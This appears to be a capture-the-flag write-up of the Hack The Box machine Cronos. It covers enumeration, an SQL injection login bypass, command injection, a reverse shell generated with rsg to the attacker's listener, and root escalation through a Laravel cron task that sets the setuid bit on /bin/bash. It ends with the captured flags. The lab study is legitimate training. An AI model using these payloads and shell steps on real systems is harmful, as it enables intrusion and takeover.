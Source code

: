 ```yaml
---
title: "HTB - Cronos"
author: "Anubhavsingh Sawdagur"
date: "2021-04-29"
subject: "Markdown"
subtitle: "10.10.10.13"
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```

# Cronos - 10.10.10.13

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.13
```

```bash
# Nmap 7.91 scan initiated Thu Apr 29 13:00:15 2021 as: nmap -sC -sV -T4 -oA nmap/initial 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 29 13:00:45 2021 -- 1 IP address (1 host up) scanned in 30.63 seconds
```

## Website

Going to the http://10.10.10.13, it is a default apache webpage.

![](Cronos.assets/image-20210429134408046.png)

## DNS Enumeration

Since port 53 is open and dns is setup, the machine could have some virtual host routing setup.

```bash
$ nslookup
# the server is setup, this will define where the queries are sent
> server 10.10.10.13 
Default server: 10.10.10.13
Address: 10.10.10.13#53
# the server is told to query itself on localhost
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
# the server is told to query the public ip address
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

A dns entry is revealed with a subdomain.

```bash
$ dig axfr cronos.htb @10.10.10.13 

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 788 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Thu Apr 29 13:53:24 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

Several domains are revealed when looking for dns zone transfers

- [cronos.htb]()
- [www.cronos.htb]()
- [admin.cronos.htb]()
- [ns1.cronos.htb]()

The above domains are added to the **/etc/hosts** file.

**ns1.cronos.htb**

![](Cronos.assets/image-20210429141923272.png)

**www.cronos.htb**, **cronos.htb**

![](Cronos.assets/image-20210429141623055.png)

admin.cronos.htb

![](Cronos.assets/image-20210429142110168.png)

After trying basic SQl injection `admin' or 1=1 -- -` in the login page, the attacker can bypass the login.

![](Cronos.assets/image-20210429142346516.png)

The attacker can execute code when trying command injection payload `;ls` in the input field.

![](Cronos.assets/image-20210429142725304.png)

# Exploitation

### Getting a reverse shell

Intercepting the post request on burp, commands can be easily executed on the server. 

![](Cronos.assets/image-20210429145546248.png)

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash
```

The attacker then uploads the shell.php and sets up **nc** to listen for an incoming connection on port **8888**.

The command is first url encoded before sending it to the server.

![](Cronos.assets/image-20210429150112820.png)



The reverse shell is then stabilised using the following commands.

```bash
which python3 # to know which python version exists
python3 -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
stty rows 42 cols 172 # sets the size for the tty shell
```

# Post Exploitation

## Privilege Escalation to Root

After running LinEnum.sh from [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum), it is known that a cronjob is running on the server.

![](Cronos.assets/image-20210429153151953.png)

### **Vulnerability Explanation:**

Since the cronjob is ran as root, if the attacker can control a schedule task, it will be ran with root privileges. Upon researching, the file **/var/www/laravel/app/Console/Kernel.php** needs to edited to add a task.

```bash
find / -name "Kernel.php" -ls 2>/dev/null
```

The file is owned by the user **www-data** and the current shell is as that specific user. Hence the attacker can modify the file as needed.

![](Cronos.assets/image-20210429153956388.png)

source: [https://tutsforweb.com/how-to-set-up-task-scheduling-cron-job-in-laravel/](https://tutsforweb.com/how-to-set-up-task-scheduling-cron-job-in-laravel/)

![](Cronos.assets/image-20210429153632588.png)

source: [https://vegibit.com/scheduling-commands-and-tasks-in-laravel/](https://vegibit.com/scheduling-commands-and-tasks-in-laravel/)

![](Cronos.assets/image-20210429154116336.png)

```php
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
        $schedule->exec('chmod u+s /bin/bash')->everyMinute();
    }
```

After the setuid of **/bin/bash** when executing `bash -p`, the attacker can have the shell of the current user have an effective user ID or euid of root.

![](Cronos.assets/image-20210429161104987.png)

### User.txt

```bash
find /home -type f -ls 2>/dev/null | grep user
```

**User.txt** can be found in the home directory of **noulis**.

```bash
cat /home/noulis/user.txt
```

![](Cronos.assets/image-20210429161454130.png)

> user.txt flag: `51d236438b333970dbba7dc3089be33b`

### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

![](Cronos.assets/image-20210429161557939.png)

> root.txt flag: `1703b8a3c9a8dde879942c79d02fd3a0`


